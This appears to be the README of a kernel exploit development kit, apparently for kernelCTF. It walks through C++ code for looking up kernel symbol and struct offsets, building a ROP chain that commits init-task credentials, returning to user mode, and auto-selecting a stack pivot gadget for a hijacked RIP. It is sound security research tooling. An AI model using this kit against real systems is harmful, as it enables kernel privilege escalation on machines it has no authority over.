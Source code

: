 # How to get started

### Creating a Database

1. Add the necessary includes to the exploit code.

    ```c++
    #include <xdk/core.h>
    #include <xdk/postrip.h>
    ```

2. Include the **target_db** in the exploit. `INCBIN` creates a read-only section in the binary with the file contents.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**:

    ```c++
    TargetDb kxdb(target_db, target_db_size);
    ```

4. Already available in database structure and symbol offsets are documented in `kxdb_tool/config.py`.
They are added for all the supported targets.

5. If the needed symbol is not in database, use `StaticTarget` object to add it. One object per target needed. For example:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddStaticTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    StaticTarget st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128, { 
        {"dump", 64, 8},
        {"type", 120, 8} });

    kxdb.AddStaticTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7. Access pre-defined or added (via `StaticTarget`) structures and symbols using following calls:

    ```c++
    auto offset = structs.at("nft_expr_ops").size + structs.at("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure   

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ``` 

8.  Detect which target **TargetDb** is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. If the payload contains constants / areas that should not be overwritten by `PayloadBuilder`, mark them as reserved:

   ```c++
   payload.Reserve(0, 8);
   ```
   
   > **Note**
   > Reserves 8 bytes at offset 0.   

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `kxdb_tool/converter/config.py`. 

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset     
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build()) 
        exit(-1); 
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:
   
   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset(); 
   ```

